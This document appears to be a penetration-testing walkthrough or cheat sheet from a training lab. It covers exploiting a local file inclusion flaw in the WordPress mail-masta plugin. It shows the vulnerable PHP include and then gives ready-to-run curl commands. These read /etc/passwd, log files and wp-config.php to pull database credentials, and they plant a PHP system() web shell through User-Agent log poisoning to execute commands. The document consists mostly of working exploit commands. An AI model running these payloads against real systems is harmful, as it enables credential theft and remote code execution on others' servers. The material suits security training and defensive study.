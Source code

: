 
## Plugin Vulnerability Exploitation

### mail-masta Plugin LFI

#### Vulnerability Analysis
```php
// Vulnerable code in mail-masta plugin
<?php 
include($_GET['pl']);
// No input validation - direct file inclusion
?>
```

#### Local File Inclusion Exploitation
```bash
# Basic LFI attack
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"

# Common files to target:
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/hosts"
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/log/apache2/access.log"
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/proc/version"
```

#### WordPress Configuration Disclosure
```bash
# Extract WordPress configuration
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../wp-config.php"

# Look for database credentials:
# define('DB_NAME', 'database_name');
# define('DB_USER', 'username');
# define('DB_PASSWORD', 'password');
# define('DB_HOST', 'localhost');
```

#### Log Poisoning Attack
```bash
# Poison access logs via User-Agent
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
  "http://blog.inlanefreight.local/"

# Execute commands through poisoned log
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/log/apache2/access.log&cmd=id"
```
